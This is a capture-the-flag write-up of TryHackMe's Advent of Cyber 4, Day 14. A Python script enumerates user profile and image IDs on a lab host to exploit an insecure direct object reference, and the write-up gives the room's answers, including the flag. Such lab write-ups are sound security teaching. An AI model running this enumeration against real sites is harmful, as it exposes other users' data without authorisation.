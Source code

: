 # Advent of Cyber 4 - Day 14

Link: [Advent Of Cyber 4 on TryHackMe](https://tryhackme.com/room/adventofcyber4)

### Question 1

> What is the office number of Elf Pivot McRed?

We notice the parameter in the URL and automate a script to determine which ID's provide a result:

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day14/1.1.png?raw=true)

The code is:

```sh
Python 3.6.9 (default, Jul 17 2020, 12:50:27) 
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests as r
>>> url = "http://10.10.85.26:8080/users/%s.html"
>>> url % 101
'http://10.10.85.26:8080/users/101.html'
>>> ok = []
>>> for i in range(200):
...     res = r.get(url % i)
...     if res.status_code == 200:
...             ok += [i]
...             print(f"Found page at ID {i}")
... 
Found page at ID 101
Found page at ID 102
Found page at ID 103
Found page at ID 104
Found page at ID 105
Found page at ID 106
Found page at ID 107
>>> ok
[101, 102, 103, 104, 105, 106, 107]
```

We then look at these ID's to find which one is Elf Pivot McRed:

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day14/1.2.png?raw=true)

Answer: `134`

### Question 2

> Not only profile pages but also stored images are vulnerable. Start with a URL of a valid profile image; what is the hidden flag?

We see the images are at `../images/$ID.png`.

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day14/2.1.png?raw=true)

We modify the code to:

```sh
Python 3.6.9 (default, Jul 17 2020, 12:50:27) 
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests as r
>>> url = "http://10.10.85.26:8080/users/../images/%s.png"
>>> url % 101
'http://10.10.85.26:8080/users/../images/101.png'
>>> ok = []
>>> for i in range(200):
...     res = r.get(url % i)
...     if res.status_code == 200:
...             ok += [i]
...             print(f"Found image at ID {i}")
... 
Found image at ID 100
Found image at ID 101
Found image at ID 102
Found image at ID 103
Found image at ID 104
Found image at ID 105
Found image at ID 106
Found image at ID 107
>>> ok
[100, 101, 102, 103, 104, 105, 106, 107]
```

We then look at the new ID to find which one is the flag:

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day14/2.2.png?raw=true)

Answer: `THM{CLOSE_THE_DOOR}`


